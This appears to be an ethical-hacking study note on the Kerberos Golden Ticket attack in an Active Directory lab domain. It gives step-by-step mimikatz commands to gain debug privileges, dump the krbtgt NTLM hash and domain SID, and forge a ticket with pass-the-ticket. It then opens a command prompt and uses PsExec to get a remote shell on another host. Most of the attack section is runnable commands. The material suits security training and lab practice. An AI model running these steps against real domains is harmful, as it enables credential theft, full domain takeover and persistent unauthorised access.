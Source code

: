 
## **Overview**

- [ ] **What is it ?**
	- When we compromise the krbtgt account, we own the domain
	- We can request access to any resource or system on the domain
	- Golden tickets == Complete access to every machine

- [ ] We can utilize `mimikatz` to obtain the information necessary to perform this attack
- [ ] There are a couple of conditions need to be met 
	- We need the krbtgt NTLM hash
	- We also need the domain SID 
- [ ] Once we have this we can generate our golden ticket and once it is generated we can use an attack call **Pass-the-Ticket** in other to utilize this anywhere
- [ ] We can think of a **Golden Ticket** attack as **Persistence**

## **Attack Scenario**

First of all make sure you transfer `mimikatz` to your domain controller then we can start it through the **Command Prompt**

```powershell
# start mimikatz
C:\Users\Administrator\Downloads>mimikatz.exe

# Elevate to highest integrity level
mimikatz # privilege::debug
mimikatz # token::elevate
```


### **Dumping the SID and NTLM hash**

```powershell
# Dump the sid and NTLM hash of the krbtgt user
mimikatz # lsadump::lsa /inject /name:krbtgt
```


#### **Example**

![](https://i.imgur.com/4XcWt6w.png)

**Note :** Copy both the SID and NTLM hash to your note pad on your DC



### **Generating Tickets**

```powershell
# /User : fake user account
# /domain : domain controller
# /sid : the sid we saved to note pad
# /krbtgt : the NTLM hash 
# /id : administrator RID for advanced privileges
# /ptt : pass-the-ticket option

mimikatz # kerberos::golden /User:secfortress /domain:marvel.local /sid:S-1-5-21-4089637540-2738901061-2314813381 /krbtgt:f362ad348de4e7392c0309959ec0775d /id:500 /ptt
```

#### **Example**


![](https://i.imgur.com/qgE2uyK.png)


### **Executing Command remotely**
Once you have the prompt as shown i the previous example do this :

```powershell
mimikatz # misc::cmd
```

You should see a new command prompt we can execute commands as any user from here.


#### **Example**



![](https://i.imgur.com/2DBD485.png)

### **Using PsExec.exe for remote shell**


We can then further our attack and gain a shell on remote target with `PsExec.exe` 
 - Download the file from [here](https://github.com/sec-fortress/Practical-Ethical-Hacking-Notes/raw/main/PsExec.exe) and transfer it to the DC downloads folder
 - On your active command prompt run

```powershell
# PsExec.exe \\MACHINE-IP/NAME cmd.exe

C:\Users\Administrator\Downloads>PsExec.exe \\THEPUNISHER cmd.exe
```



![](https://i.imgur.com/e7eovyE.png)
